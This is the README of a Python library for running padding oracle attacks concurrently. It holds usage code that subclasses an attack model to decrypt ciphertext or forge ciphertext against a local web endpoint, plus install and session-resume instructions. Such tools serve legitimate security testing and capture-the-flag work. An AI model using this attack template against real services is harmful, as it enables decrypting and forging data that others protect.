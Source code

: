 A library for padding oracle attack concurrently
---

Payload_model is a abstract class handling all details of padding oracle attack algorithm.
You should specify a subclass of payload_model and change some import methods. You can customize it to fit different environment.

[![](https://img.shields.io/pypi/v/padding-oracle-attack.svg)](https://pypi.org/project/padding-oracle-attack/)
[![](https://img.shields.io/pypi/pyversions/padding-oracle-attack.svg)](https://pypi.org/project/padding-oracle-attack/)

Usage
---
Get clear text from cipher text
```python
from padding_oracle_attack import payload_model
import grequests
from grequests import request

class payload(payload_model):
    def padding_ok(self, resp:Response) -> bool:
        if resp.status_code == 200:
            return True
        else:
            return False

    def recover_fake_data(self, req:Request, fake_datas):
        for fake_data in fake_datas:
            if bytes.hex(fake_data) in req.url:
                return fake_data
        return None

    def make_request(self, fake_data) -> request:
        params = {
                "data": bytes.hex(fake_data)
            }

        return request("get", "http://127.0.0.1:5000", params=params)

if __name__ == "__main__":
    m = payload("3a10f84900818b1c439430600524fb0f00000000000000000000000000000000")
    m.run()
```
![record](https://github.com/lcark/padding_oracle_attack/raw/main/media/padding_snap.GIF)

Fake cipher text via clear text
```python
...
if __name__ == "__main__":
    m = payload("3a10f84900818b", fake=True)
    m.run()
```
Result
---

![result](https://github.com/lcark/padding_oracle_attack/raw/main/media/result.png)

Save and Load session
---
When breaking down the execution(CTRL-C), it will save session to file 'padding-session.txt' automaticly.You can load session like below.
```python
payload = Payload(bytes.hex(exp), fake=True)
payload.load()
payload.run()
```

Installation
---
```bash
pip install padding-oracle-attack
```